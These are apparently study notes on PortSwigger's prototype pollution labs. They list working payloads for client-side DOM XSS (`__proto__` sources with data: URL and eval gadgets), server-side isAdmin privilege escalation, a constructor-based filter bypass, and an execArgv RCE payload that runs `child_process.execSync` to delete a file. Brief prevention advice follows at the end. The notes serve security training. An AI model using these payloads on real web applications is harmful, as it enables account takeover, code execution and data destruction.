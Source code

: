 # Prototype Pollution

## Lab: DOM XSS via client-side prototype pollution

What is Data Scheme URL? `data:, alert(1)`  
How is the code triggered?   

Source: `/?__proto__.[transport_url]=alert(1)`
Gadget: 
```js
let script = document.createElement('script');
script.src = config.transport_url;
document.body.appendChild(script);
```

## Lab: DOM XSS via an alternative prototype pollution vector

Source: `/?__proto__.sequence=alert(1)==`

Gadget: `eval('if(alert(1)==1){ console.log(1) }');`


## Prototype pollution via the constructor

Source: `?__pro__proto__to__[transport_url]=data:%20,alert(1)`


## Lab: Client-side prototype pollution in third-party libraries
Use "DOM Invader".

## Lab: Client-side prototype pollution via browser APIs
```js
a = {}
a.__proto__.value = 123
b = {c: false}
Object.defineProperty(b, 'c', {configurable: false, writable: false});
b.c
```

what is b.c? why?  
Tip:
```js
a = {value: 123}
b = {}
Object.defineProperty(b, 'c', a)
b.c // would be 123
```


## Lab: Privilege escalation via server-side prototype pollution
Add the following property in change-address request:  
```json
"__proto__": {
    "isAdmin": true
}
```


## Lab: Detecting server-side prototype pollution without polluted property reflection

"__proto__":{
    "content-type": "application/json; charset=utf-7"
}

Question: `what does this mean? "foo in UTF-7 is +AGYAbwBv-"`


## Lab: Bypassing flawed input filters for server-side prototype pollution

Defense: set `__proto__` is not permitted.

```js
"constructor": {
    "prototype": {
        "isAdmin":true
    }
}
```


## Lab: Remote code execution via server-side prototype pollution

```js
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```


## Prototype Pollution Prevention
1. Sanitizing property keys
2. Preventing changes to prototype objects: `Object.freeze(Object.prototype)`
3. Preventing an object from inheriting properties: `let myObject = Object.create(null)`
4. Using safer alternatives where possible, e.g. `Set` and `Map`








